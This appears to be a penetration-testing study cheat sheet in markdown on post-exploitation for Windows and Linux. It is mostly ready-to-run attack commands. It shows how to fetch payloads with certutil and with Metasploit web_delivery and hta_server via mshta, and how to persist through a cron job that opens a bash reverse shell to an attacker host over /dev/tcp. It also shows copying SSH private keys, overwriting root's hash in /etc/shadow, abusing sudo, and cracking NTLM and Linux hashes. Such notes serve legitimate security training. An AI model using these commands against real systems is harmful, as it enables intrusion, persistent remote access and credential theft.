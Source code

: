 # Post exploit

## Windows

We can use `wmic qfe get Caption,Description,HotFixID,InstalledOn` for hotfix details 

**System**
- `enum_patches` module, check patch
- `enum_share` Check share.

**User and Group**:
- In windows, administrator disable by default but can be enable if needed.
- In shell, `whoami /priv` To get privil, `net users` `net user administrator`, `net localgroup`, `net localgroup administrators`
- `enum_logged_on_users` Module, check logon user

**Network**
- `ipconfig` and `ipconfig /all`
- `route print` Routing table info
- `arp -a` Get all other device of the network
- `netstat -ano` Get port and service running
- `netsh firewall show state` `netsh advfirewall firewall show` `netsh advfirewall show allprofiles`
- `enum_computers` module

**Process and service**
- In cmd, `net start` List servies
- `wmic service list brief` or `tasklist /SVC`
- `schtasks /query /fo LIST` `-v` for verbose.
- `enum_applications` module

**Automate the post exploit process**
- Use [JAWS](https://github.com/411Hall/JAWS) script, download and save it on local.
    - Upload it to the target
    - `powershell.exe -ExecutionPolicy Bypass -File ./jaws-enum.ps1 -OutputFilename Jaws-scan.txt`

## Linux

**System**:
- `cat /etc/*release` - Check distro
- `lscpu` Check CPU info
- `df -h` Check disk, `df -ht ext4`, `lsblk | grep sd`
- `dpkg -l` List package 

**User and group**:
- `groups root` `groups`

**Network**
- In meterpreter, `netstat` `route`
- In shell `ip a s` `cat /etc/networks`, `cat /etc/hostname`, `cat /etc/hosts`
- In shell `cat /etc/resolv.conf` DNS info, `arp -a`

**Process and cronjob**:
- In shell, try `ps aux` `top`
- In shell `crontab -l` `ls -al /etc/cron*` Display cronjob and cron script
- `cat /etc/cron*`

**Automate the post exploit**:
- `linux/gather/enum_configs` Collect config
- `linux/gather/enum_system`
- Use [Linenum](https://github.com/rebootuser/LinEnum), download and ship it.

**Upgrade shell for linux**:
- `cat /etc/shells` -> `/bin/bash -i` or `/bin/sh -i`
- If python installed `python --version` -> `python -c 'import pty; pty.spawn("/bin/bash")'`
- `perl -e 'exec "/bin/bash";'` `ruby: exec "/bin/bash"`
- We can `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`

## Transfer file to target

**WIndows**:
- `certutil -urlcache -f http://<host_ip>:80/nc.exe <nameOfFile>`

**Linux**:
- Use `wget` or `curl`

## PrivEsc

**Windows**:
- [PrivescCheck](https://github.com/itm4n/PrivescCheck)
    - To run `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`

---
*Web_delivery* Exploit
- Use module `web_delivery`
    - set `payload /windows/shell/reverse_tcp` set `LHOST`
    - `set target PSH (Binary)`
    - `set PSH-encodedcommand false`
    - Run the output command on the target machine (Must have access though)
- When obtain the shell from target, use `/multi/../shell_to_meterpreter` to upgrade shell
    - `set win_transfer vbs`
    - set `LHOST` and `LPORT`
---

`Windows/misc/hta_server` Module
- use `exploit/windows/misc/hta_server` -> `exploit`
    - This will output a link that we need to connect to on the target machine
- On the target, open cmd or powershell with admin privilege
    - `mshta.exe <link_attacker>` EX: `mshta.exe http://1.2.3.4:8080/xxxxxxxxxxxxxxxx.hta`

---

Result return from PrivescCheck may return creds of higher privliege user
- use cred with `psexec.py` or module `windows/smb/psexec`

CMD command for login as administrator: `runas.exe /user:administrator cmd`

**Linux**

Use LinEnum or manually check, we can try
- `find / -not -type l -perm -o+w`
- Change password with `/etc/shadow`
    - Create hash `openssl passwd -1 -salt <salt> <password>` `1` is hash algorithm (MD5)
    - Copy hash to user root `root:<newhash>:<other_part>`

Sudo privilege escalation:
- `sudo -l` Check sudo privilege for current user
    - Example of misconfig: `(root) NOPASSWD: /usr/bin/ruby` Ruby can run with root privilege, no need password, and current user can use ruby.
    - We can run `ruby ... /bin/bash` and it will have root bin/bash. Same for other app `man` ~ `!/bin/bash`

## Persistence

Via service:
- After gain access (ex: via rejetto attack), we can use module `/windows/local/persistence_service` for persistence service.
    - Setup payload and service metadata then run

Via RDP:
- After gain access (ex: via badblue), migrate process
- Create new user for RDP in meterpreter `run getgui -e -u <user> -p <password>`
- Use `xfreerdp /u:<username> /p:<password> /v:<target>`

Linux - via SSH:
- Copy the private key in the `.ssh` folder
    - By `scp <username>@<target>:~/.ssh/id_rsa .`
    - Remember to `chmod 400 id_rsa`
- We can re-login by `ssh -i id_rsa <username>@<target>`

Linux - via Cron Jobs:
- `cat /etc/cron`, create new cronjob 
    - `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<host_ip>/1234 0>&1'" > cron`
- Add to cronjob `crontab -i cron`
    - Recheck with `crontab -l`
- Setup netcat `nc -nvlp 1234`

## Dump and cracking hash

**Windows NTLM**
- Copy the hash that we collect into txt file
- We can use john the ripper `john --list=formats | grep NTLM`
- `john --format=NT hashes.txt --wordlist=/path/to/wordlist`
    - We can use rockyou `gzip -d /usr/share/wordlists/rockyou.txt.gz`
- We can use hashcat `hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlist/rockyou.txt`
    - `-a 3` Brute force
    - `-m 1000` Hash mode 1000 ~ NTLM

**Linux Hash**:
- If we use module `linux/gather/hashdump` we have result of un-shadow hash -> Save it
- Try use `john --format=sha512crypt /path/to/hash/file --wordlist=/path/to/wordlist/file`
    - If `$6$` ~ Sha512 (Linux indicate)
- For hashcat `hashcat -a 3 -m 1800 /path/to/hash/file <wordlist>`